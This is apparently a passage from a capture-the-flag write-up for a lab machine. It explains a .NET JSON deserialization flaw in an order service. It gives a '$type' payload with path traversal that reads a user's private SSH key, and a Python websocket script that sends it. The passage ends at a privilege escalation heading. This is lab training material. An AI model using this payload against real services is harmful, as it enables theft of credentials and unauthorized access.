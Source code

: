 <img src="https://i.imgur.com/UV0XIFJ.png"/>

Checking the `Orders` class we have `RemoveOrder` object having empty constructor which fulfils the requirement for this deserialization

<img src="https://i.imgur.com/wpW5OSq.png"/>

The application on `/orders` is using `ReadOrder` function which is filtering for reading local files as it's reading `orders.txt` from `/opt/bagel/orders/`

<img src="https://i.imgur.com/1wdjzm4.png"/>

<img src="https://i.imgur.com/fgLeIvm.png"/>
To perfrom json deserlization using RemoveOrder function our payload should like this 

```json
{"RemoveOrder":{"$type":"bagel_server.File, bagel", "ReadFile":"../../../../../home/phil/.ssh/id_rsa"}}
```

Here `bagel_server.File` is the namespace and `File` is the parameter which will hold the file name in `ReadFile` and the reason we are using ReadFile function is because it won't have any validaiton and can directly read files

<img src="https://i.imgur.com/CLeMY5D.png"/>

Which then further calls `ReadContent`

<img src="https://i.imgur.com/fhFUju5.png"/>

On to sending our payload, we can use the same code which is in app.py 

```python
import websocket,json

ws = websocket.WebSocket() 
ws.connect("ws://10.10.11.201:5000/") # connect to order app
#order = {"ReadOrder":"orders.txt"}
order = {"RemoveOrder":{"$type":"bagel_server.File, bagel", "ReadFile":"../../../../../home/phil/.ssh/id_rsa"}}
data = str(json.dumps(order))
ws.send(data)
result = ws.recv()
print(json.loads(result))
```

<img src="https://i.imgur.com/MwauPmX.png"/>

<img src="https://i.imgur.com/7PVFE6v.png"/>

Having a shell as phil, we can then escalate to developer as we already had found the password 

## Privilege Escalation (developer)
